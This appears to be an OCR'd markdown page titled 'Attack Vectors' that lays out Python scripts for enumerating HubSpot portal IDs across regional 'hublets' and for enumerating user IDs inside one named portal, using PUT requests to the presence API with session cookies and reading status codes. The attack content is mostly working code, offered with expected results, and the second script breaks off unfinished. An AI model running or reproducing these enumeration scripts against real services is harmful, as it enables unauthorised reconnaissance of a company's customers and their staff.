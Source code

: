 ## Attack Vectors

### 1. Portal Enumeration via Hublet Mapping

**Objective:** Map all portal IDs to their hublets

**Method:**
```python
def enumerate_portals(start=100000000, end=300000000, step=1000):
    """
    Test portal IDs and map to hublets
    Returns: Dict of {portal_id: hublet}
    """
    hublet_map = {}

    for portal_id in range(start, end, step):
        url = f"https://app.hubspot.com/api/presence/v1/presence/portal/{portal_id}/user/1"
        response = requests.put(url, cookies=cookies, json={})

        if response.status_code == 488:
            # Portal exists in different hublet
            hublet = response.json()['correctHublet']
            hublet_map[portal_id] = hublet
        elif response.status_code == 401:
            # Portal exists on current hublet
            hublet_map[portal_id] = 'default'
        elif response.status_code == 404:
            # Portal doesn't exist
            pass

    return hublet_map
```

**Expected Result:**
- Map of ~100,000 portal IDs to hublets
- Distribution across na1, na2, eu1, etc.
- Valid portal ID ranges identified

---

### 2. User Enumeration within Portal

**Objective:** Enumerate all user IDs in portal 242862774

**Method:**
```python
def enumerate_users(portal_id, start_user_id, end_user_id):
    """
    Enumerate user IDs via presence API
    Returns: List of valid user IDs
    """
    valid_users = []

    for user_id in range(start_user_id, end_user_id):
        url = f"https://app.hubspot.com/api/presence/v1/presence/portal/{portal_id}/user/{user_id}"
        response = requests.put(url, cookies=cookies, json={})

        if response.status_code == 200:
            # User exists and accessible
            valid_users.append(user_id)
        elif response.status_code == 403:
            # User exists but forbidden
            valid_users.append(user_id)
        # 404 = user doesn't exist

```